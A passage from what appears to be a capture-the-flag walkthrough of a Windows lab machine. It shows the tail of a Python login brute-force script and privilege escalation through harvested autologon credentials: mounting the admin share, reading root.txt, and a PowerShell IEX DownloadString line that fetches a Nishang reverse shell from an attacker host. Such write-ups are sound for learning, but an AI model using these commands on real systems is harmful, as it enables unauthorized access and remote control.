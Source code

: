 ```python3
    usernames = ['harvey','daniel']
    for username in usernames:
        print("[+] Enumerating passwords for {username}".format(username=username))
        for password in passwords:
            data = {'csrf':csrf_value,'user_name':username,'user_password':password,'action':'login'}
            resp = s.post(url, data=data)
            if 'The information is incorrect.' not in resp.text:
                print("Credentials found =====> {username}:{password}".format(username=username,password=password))

if __name__ == '__main__':
    checkCredentials()
```

### Privilege Escalation via autologon credentials
Another way that we can achieve privilege escalation is via the autologon credentials. Using winPEAS, we are able to find some autologon credentials with the DefaultDomainName, DefaultUserName and the DefaultPassword.

```
???????????? Looking for AutoLogon credentials
    Some AutoLogon credentials were found
    DefaultDomainName             :  DESKTOP-7I3S68E
    DefaultUserName               :  Administrator
    DefaultPassword               :  3130438f31186fbaf962f407711faddb
```

One way to exploit this autologon credentials is to use the autologon credentials to gain access to the privileged file system

```
PS C:\temp> net use x: \\localhost\c$ /user:administrator 3130438f31186fbaf962f407711faddb
The command completed successfully.

PS C:\temp> whoami
nt authority\iusr
PS C:\temp> x:
PS X:\> cd Users/Administrator/Desktop
PS X:\Users\Administrator\Desktop> type root.txt
f05b75ad811c2e1f5f53720a90d4d055
PS X:\Users\Administrator\Desktop> 
```

Another way to exploit the autologon credentials is to use the "run as" commands in powershell. In the exploit the shell.ps1 script will be the same Invoke-PowerShellTcp.ps1 script that we have downloaded from Nishang.

```
PS C:\temp> $username = "BART\Administrator"
PS C:\temp> $password = "3130438f31186fbaf962f407711faddb"
PS C:\temp> $secstr = New-Object -TypeName System.Security.SecureString
PS C:\temp> $password.ToCharArray() | ForEach-Object {$secstr.AppendChar($_)}
PS C:\temp> $cred = new-object -typename System.Management.Automation.PSCredential -argumentlist $username, $secstr
PS C:\temp> Invoke-Command -ScriptBlock { IEX(New-Object Net.WebClient).downloadString('http://10.10.16.6:3000/shell.ps1') } -Credential $cred -Computer localhost
```
